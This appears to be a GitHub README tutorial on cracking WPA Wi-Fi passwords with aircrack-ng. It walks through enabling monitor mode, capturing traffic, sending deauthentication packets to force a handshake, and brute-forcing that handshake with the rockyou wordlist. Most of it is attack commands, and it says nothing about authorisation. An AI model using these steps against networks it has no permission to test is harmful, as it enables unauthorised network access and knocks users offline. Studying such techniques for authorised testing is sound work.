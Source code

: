 Since WPA is a strong protocol we can't simply hack it, but we can bruteforce it!

### Useful Commands

First we want to turn on the interface in monitor mode, given that the monitor mode is supported by your card, but we have to kill the processes that interfere with the process of turning the interface into monitor mode.

```bash
# Kill the processes that interfere with starting wlan0 in monitor mode
sudo ifconfig wlan0 down
sudo kill $(pgrep NetworkManager)
sudo kill $(pgrep wpa_supplicant)
# Now put the interface in monitor mode, put the interface up and restart network manager and 
sudo airmon-ng start wlan0
```

To check if the monitor mode is on and working, we can use the following command:

```bash
sudo iwconfig
```

Now we might need to unplug the USB device then plug it back.

Then we run the following command to start capturing packets:

```bash
sudo airodump-ng wlan0
# To only display the access point that we want, we can use the following command
sudo airodump-ng wlan0 -d <BSSID>
```

Now we can use the following command to write the captures to a file:

```bash
sudo airodump-ng -w <name of file> -c <channel> --bssid <BSSID> wlan0
```

Next ,we will disconnect a device from a network using deauth packet on another terminal so we can capture a handshake, and to do so we will use the following command:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
# We can find the 4-way handshake with EAPOL packets on wireshark
```

Finally we will start brute forcing by using the following command:

```bash
aircrack-ng <.cap file> -w /usr/share/wordlists/rockyou.txt
```

Note: if we want to go back into managed mode, we can use the following commands:

```bash
sudo airmon-ng stop wlan0
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed 
sudo service NetworkManager restart  
sudo service wpa_supplicant restart
sudo ifconfig wlan0 up
```

Note: you might need to toggle Wi-Fi button from top-right menu. 

In case the network manager gets stuck, use the following command:

```bash
sudo apt-get install --reinstall network-manager
```